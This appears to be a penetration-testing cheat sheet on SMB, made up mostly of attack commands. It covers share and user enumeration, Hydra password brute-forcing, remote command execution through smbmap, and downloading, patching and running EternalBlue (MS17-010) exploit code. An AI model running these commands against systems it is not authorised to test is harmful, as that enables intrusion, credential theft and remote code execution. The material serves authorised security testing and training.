 ```yaml
---
title: Server Message Block (SMB) Pentesting
desc: Default port is 139, 445.
tags: [139, 445, Active, Directory, EternalBlue, Hydra, Nmap, Samba, SMB, Windows]
alts: []
render_with_liquid: false
---
```


## Enumeration

1. **Use Nmap**

    ```sh
    nmap --script smb-brute -p 445 <target-ip>
    nmap --script smb-enum-shares.nse,smb-enum-users.nse -p 445 <target-ip>
    nmap --script smb-enum* -p 445 <target-ip>
    nmap --script smb-protocols -p 445 <target-ip>
    nmap --script smb-vuln* -p 445 <target-ip>
    ```

2. **Use Enum4linux**

    ```sh
    # Basic
    enum4linux 10.0.0.1

    # All enumeration
    enum4linux -a 10.0.0.1

    # Verbose
    enum4linux -v 10.0.0.1

    # Specify username and password
    enum4linux -u username -p password 10.0.0.1
    ```

3. **Use Smbmap**

    ```sh
    smbmap -H <target-ip>

    # Recursive
    smbmap -H <target-ip> -R

    # Username and password
    smbmap -u username -p password -H <target-ip>

    # Execute a command
    smbmap -u username -p password -H <target-ip> -x 'ipconfig'
    ```

3. **Brute Force Credentials**

    ```sh
    hydra -l username -P passwords.txt <target-ip> smb
    hydra -L usernames.txt -p password <target-ip> smb
    ```

<br />

## Connect

1. **Use Smbclient**

    ```sh
    smbclient -L 10.0.0.1
    smbclient -N -L 10.0.0.1
    smbclient -N -L \\\\10.0.0.1
    smbclient -L 10.0.0.1 -U username

    # Specify shared directory
    smbclient //10.0.0.1/somedir -U username
    # nobody, no-pass
    smbclient //10.0.0.1/somedir -N -U nobody

    # Specify workgroup
    smbclient -L 10.0.0.1 -W WORKGROUP -U username
    ```

    - **Download Shares**

        ```sh
        smbget -R smb://10.0.0.1/somedir -U username

        # Specify workgroup
        smbget -R smb://10.0.0.1/somedir -w WORKGROUP -U username
        ```

<br />

## EternalBlue (MS17-010)

1. **Use AutoBlue**

    **[AutoBlue](https://github.com/3ndG4me/AutoBlue-MS17-010){:target="_blank"}** is an automatic exploit.  
    Download the repository and run the following example command.

    ```sh
    python zzz_exploit.py -target-ip <target-ip> -port 445 'username:password@target'
    ```

2. **Manual Exploiting**

    You need to have two files - exploit.py, mysmb.py

    - **Download mysmb.py**

        ```sh
        wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/42315.py -O mysmb.py 

        # Convert DOS to UNIX
        dos2unix mysmb.py
        ```

    - **Edit Some Lines of mysmb.py for Python3**

        You need to edit some code because this exploit is old so only supports **Python2**.

        ```sh
        Line.69
        # transData = b''
        transData = ''

        Line.73
        # transData = ('\x00' * padLen) + str(parameters)
        transData = "".join(map(chr,(b'\x00' * padLen))) + str(parameters)

        Line.80
        # transData += ('\x00' * padLen) + data
        transData += "".join(map(chr,(b'\x00' * padLen))) + str(data)

        Line.231
        # req = str(pkt)
        req = pkt.getData()
        return b'\x00'*2 + pack('>H', len(req)) + req  # assume length is <6553

        Line.381
        # data += resp['Data'][1:]
        data += resp['Data'][1:].decode()
        ```

    - **Download exploit.py**

        ```sh
        wget -O exploit.py https://www.exploit-db.com/exploits/42315

        # Convert DOS to UNIX
        dos2unix exploit.py
        ```

    - **Edit the Credentials in exploit.py**

        ```sh

        ...
        username = "username"
        password = "password"
        ...

        ```

    - **Run**

        ```sh
        python exploit.py 10.0.0.1 netlogon
        python exploit.py 10.0.0.1 lsarpc
        python exploit.py 10.0.0.1 samr
        ```